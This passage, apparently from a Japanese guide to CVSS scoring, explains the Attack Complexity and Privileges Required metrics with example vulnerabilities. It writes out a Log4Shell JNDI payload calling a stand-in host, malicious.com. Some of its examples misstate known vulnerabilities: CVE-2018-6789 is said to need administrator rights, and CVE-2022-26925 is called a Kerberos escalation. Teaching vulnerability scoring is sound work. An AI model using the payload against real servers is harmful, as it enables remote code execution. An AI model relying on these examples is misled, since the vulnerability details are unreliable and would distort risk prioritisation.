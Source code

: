 - **条件例 2:**  
  Webサーバーの設定ミスにより、ディレクトリトラバーサル攻撃 (`../`) でサーバー内の機密ファイルが読み取れる。  
  **例:** Apacheサーバーのパス・トラバーサル脆弱性。  

---

### **AC:H（高） - 攻撃が困難な事例**
- **条件例 1:**  
  攻撃成功には、被害者が特定のWebページにログインし、さらにセッション中に攻撃者が悪意のあるリクエストを送る必要がある。  
  **例:** CSRF (Cross-Site Request Forgery) 攻撃。  
  - **解説:** セッションの有効性や被害者の行動に依存するため、条件が複雑で「AC:H」と評価されます。  

- **条件例 2:**  
  通信データが暗号化されており、攻撃者が解読するために特定の条件下で通信パケットを傍受し、さらに時間やタイミングを精密に計算して攻撃を行う必要がある。  
  **例:** TLSプロトコルのタイミング攻撃。  

---

## 🚨 **まとめ**
| 攻撃条件の複雑さ (AC) | 条件の特性 | 影響度 |
|------------------------|--------------|----------|
| **AC:L** (低)             | 条件が少なく、誰でも容易に再現可能。 | **リスクが高い** |
| **AC:H** (高)             | 特定の環境や操作が必要で、再現性が低い。 | **リスクが低め** |

---

## 💡 **対策のポイント**
- **AC:L（低）** の脆弱性は、**即時対応**が最優先です。攻撃の成功確率が高いため、リスクが大きくなります。
- **AC:H（高）** の脆弱性は、**攻撃成功の再現性が低い**ため、他のリスク要因と併せて優先順位を検討するのが効果的です。

# 必要な特権レベル（Privileges Required, PR）

**必要な特権レベル (Privileges Required, PR)** は、攻撃を成功させるために攻撃者が取得する必要のある権限レベルを評価する指標です。CVSS (Common Vulnerability Scoring System) では、以下の3つのレベルに分類されます。

| 必要な特権レベル (PR) | 説明 | 具体例 |
|------------------------|-------|---------|
| **PR:N (None / なし)**  | 攻撃者が特権を全く持たず、認証不要で攻撃が可能な場合。<br>最も危険な攻撃条件に該当する。 | - **Log4Shell (CVE-2021-44228)**<br>→ 攻撃者は特権やアカウントなしにリモートコード実行が可能。 |
| **PR:L (Low / 低)**     | 攻撃者がシステムの一般ユーザー権限など、低レベルの権限を持っている必要がある場合。 | - **CVE-2022-26925 (Windows Kerberos特権昇格の脆弱性)**<br>→ 通常のユーザー権限があれば、管理者権限を取得できる。 |
| **PR:H (High / 高)**     | 攻撃者がシステム管理者権限やルート権限など、高度な権限を持っている必要がある場合。<br>攻撃の前提条件が厳しいため、重大度は低く評価される。 | - **CVE-2018-6789 (Eximメーラーのバッファオーバーフロー脆弱性)**<br>→ 管理者権限が必要であり、攻撃成功には特定のシステム状態が求められる。 |

---

## 🔍 **具体的な攻撃事例**
### **1. PR:N（なし） - 最も危険な事例**
- **脆弱性例:** Log4Shell (CVE-2021-44228)  
- **攻撃内容:** 攻撃者は特別な権限なしに、ターゲットアプリケーションへ悪意のある文字列 (`${jndi:ldap://malicious.com/a}`) を送るだけでリモートコード実行が可能。  
- **解説:** **PR:N** の脆弱性は、外部から広範囲に被害を及ぼすため、**最優先での対処**が求められます。  

---